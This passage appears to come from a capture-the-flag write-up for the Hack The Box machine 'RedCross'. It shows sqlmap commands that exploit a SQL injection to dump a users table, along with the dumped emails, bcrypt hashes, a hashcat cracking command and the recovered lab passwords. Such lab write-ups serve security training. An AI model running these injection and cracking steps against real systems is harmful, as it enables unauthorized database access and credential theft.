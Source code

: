 Listing tables from `redcross` DB: `sqlmap -r login.req --risk=3 -p o --dbms=mysql --random-agent --delay=1.0 --technique=UE -D redcross --tables`

```
[14:38:41] [INFO] retrieved: messages
[14:38:42] [INFO] retrieved: requests
[14:38:44] [INFO] retrieved: users
Database: redcross
[3 tables]
+----------+
| messages |
| requests |
| users    |
+----------+
```

Dumping list of users: `sqlmap -r login.req --risk=3 -p o --dbms=mysql --random-agent --delay=1.0 --technique=UE -D redcross -T users --dump`

```
Database: redcross
Table: users
[5 entries]
+----+------+------------------------------+----------+--------------------------------------------------------------+
| id | role | mail                         | username | password                                                     |
+----+------+------------------------------+----------+--------------------------------------------------------------+
| 1  | 0    | admin@redcross.htb           | admin    | $2y$10$z/d5GiwZuFqjY1jRiKIPzuPXKt0SthLOyU438ajqRBtrb7ZADpwq. |
| 2  | 1    | penelope@redcross.htb        | penelope | $2y$10$tY9Y955kyFB37GnW4xrC0.J.FzmkrQhxD..vKCQICvwOEgwfxqgAS |
| 3  | 1    | charles@redcross.htb         | charles  | $2y$10$bj5Qh0AbUM5wHeu/lTfjg.xPxjRQkqU6T8cs683Eus/Y89GHs.G7i |
| 4  | 100  | tricia.wanderloo@contoso.com | tricia   | $2y$10$Dnv/b2ZBca2O4cp0fsBbjeQ/0HnhvJ7WrC/ZN3K7QKqTa9SSKP6r. |
| 5  | 1000 | non@available                | guest    | $2y$10$U16O2Ylt/uFtzlVbDIzJ8us9ts8f9ITWoPAWcUfK585sZue03YBAi |
+----+------+------------------------------+----------+--------------------------------------------------------------+
```

The password are stored with the bcrypt password hashing function, which is very slow to brute force. After letting hashcat (`hashcat -a 0 -m 3200`) run for some time I was able to recover the following hashes:

- guest / guest
- penelope / alexx
- charles / cookiemonster

None of them work to log in with SSH but we are able to see a few additional messages when logging in with the web messaging application.

> Please could you check the admin webpanel? idk what happens but when I'm checking the messages, alerts popping everywhere!! Maybe a virus?
